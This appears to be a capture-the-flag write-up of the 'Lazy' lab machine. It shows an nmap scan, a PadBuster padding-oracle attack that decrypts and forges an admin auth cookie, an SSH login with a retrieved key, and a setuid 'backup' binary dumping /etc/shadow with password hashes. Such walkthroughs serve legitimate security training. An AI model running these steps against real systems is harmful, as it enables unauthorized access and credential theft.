#### Lazy

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Oracle Padding Attack](#oracle-padding-attack)
- [Privilege Escalation using absolute path](#privilege-escalation-using-absolute-path)

###### Attacker Info

```sh
root@kali:~/lazy# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 84979  bytes 88671408 (84.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46002  bytes 5059150 (4.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 255  bytes 28546 (27.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 255  bytes 28546 (27.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::bcdb:b8da:bd7:e9a7  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 16079  bytes 15740915 (15.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17415  bytes 1217036 (1.1 MiB)
        TX errors 0  dropped 469 overruns 0  carrier 0  collisions 0

root@kali:~/lazy#
```

###### Nmap Scan

```sh
root@kali:~/lazy# nmap -sV -sC -oA lazy.nmap 10.10.10.18

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-30 19:21 EST
Nmap scan report for 10.10.10.18
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (EdDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: CompanyDev
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.95 seconds
root@kali:~/lazy#
```

```
http://10.10.10.18
```










```
cdmin
password
```











###### Oracle Padding Attack

```sh
root@kali:~/lazy# git clone https://github.com/GDSSecurity/PadBuster.git
Cloning into 'PadBuster'...
remote: Counting objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Unpacking objects: 100% (28/28), done.
root@kali:~/lazy# cd PadBuster/
root@kali:~/lazy/PadBuster# ls
padBuster.pl  README
root@kali:~/lazy/PadBuster# perl padBuster.pl

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

    Use: padBuster.pl URL EncryptedSample BlockSize [options]

  Where: URL = The target URL (and query string if applicable)
         EncryptedSample = The encrypted value you want to test. Must
                           also be present in the URL, PostData or a Cookie
         BlockSize = The block size being used by the algorithm

Options:
	 -auth [username:password]: HTTP Basic Authentication
	 -bruteforce: Perform brute force against the first block
	 -ciphertext [Bytes]: CipherText for Intermediate Bytes (Hex-Encoded)
         -cookies [HTTP Cookies]: Cookies (name1=value1; name2=value2)
         -encoding [0-4]: Encoding Format of Sample (Default 0)
                          0=Base64, 1=Lower HEX, 2=Upper HEX
                          3=.NET UrlToken, 4=WebSafe Base64
         -encodedtext [Encoded String]: Data to Encrypt (Encoded)
         -error [Error String]: Padding Error Message
         -headers [HTTP Headers]: Custom Headers (name1::value1;name2::value2)
	 -interactive: Prompt for confirmation on decrypted bytes
	 -intermediate [Bytes]: Intermediate Bytes for CipherText (Hex-Encoded)
	 -log: Generate log files (creates folder PadBuster.DDMMYY)
	 -noencode: Do not URL-encode the payload (encoded by default)
	 -noiv: Sample does not include IV (decrypt first block)
         -plaintext [String]: Plain-Text to Encrypt
         -post [Post Data]: HTTP Post Data String
	 -prefix [Prefix]: Prefix bytes to append to each sample (Encoded)
	 -proxy [address:port]: Use HTTP/S Proxy
	 -proxyauth [username:password]: Proxy Authentication
	 -resume [Block Number]: Resume at this block number
	 -usebody: Use response body content for response analysis phase
         -verbose: Be Verbose
         -veryverbose: Be Very Verbose (Debug Only)

root@kali:~/lazy/PadBuster#
```

```sh
root@kali:~/lazy/PadBuster# perl padBuster.pl http://10.10.10.18/index.php v%2BCCo071frzoDWqxevW4BlDBaelDHzNa 8 -cookies auth=v%2BCCo071frzoDWqxevW4BlDBaelDHzNa

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 982

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (45/256) [Byte 8]
[+] Success: (227/256) [Byte 7]
[+] Success: (99/256) [Byte 6]
[+] Success: (137/256) [Byte 5]
[+] Success: (44/256) [Byte 4]
[+] Success: (31/256) [Byte 3]
[+] Success: (108/256) [Byte 2]
[+] Success: (62/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): e80d6ab17af5b806
[+] Intermediate Bytes (HEX): ca93e7d1739e1fd2
[+] Plain Text: user=kan

Use of uninitialized value $plainTextBytes in concatenation (.) or string at padBuster.pl line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (252/256) [Byte 8]
[+] Success: (71/256) [Byte 7]
[+] Success: (11/256) [Byte 6]
[+] Success: (225/256) [Byte 5]
[+] Success: (33/256) [Byte 4]
[+] Success: (252/256) [Byte 3]
[+] Success: (135/256) [Byte 2]
[+] Success: (47/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 50c169e9431f335a
[+] Intermediate Bytes (HEX): d97e02da1bf6bb05
[+] Plain Text: 1shka

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=kan1shka

[+] Decrypted value (HEX): 757365723D6B616E3173686B61030303

[+] Decrypted value (Base64): dXNlcj1rYW4xc2hrYQMDAw==

-------------------------------------------------------

root@kali:~/lazy/PadBuster#
```

```sh
root@kali:~/lazy/PadBuster# perl padBuster.pl http://10.10.10.18/index.php v%2BCCo071frzoDWqxevW4BlDBaelDHzNa 8 -cookies auth=v%2BCCo071frzoDWqxevW4BlDBaelDHzNa -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 982

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------

root@kali:~/lazy/PadBuster#
```







```sh
root@kali:~/lazy# chmod 600 mysshkeywithnamemitsos
root@kali:~/lazy# ssh -i mysshkeywithnamemitsos mitsos@10.10.10.18
The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
ECDSA key fingerprint is SHA256:OJ5DTyZUGZXEpX4BKFNTApa88gR/+w5vcNathKIPcWE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.18' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Jan 29 00:37:25 EET 2018

  System load: 0.0               Memory usage: 4%   Processes:       193
  Usage of /:  7.6% of 18.58GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Thu Jan 18 10:29:40 2018
mitsos@LazyClown:~$ ls
backup  peda  user.txt
mitsos@LazyClown:~$
mitsos@LazyClown:~$ ./backup
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
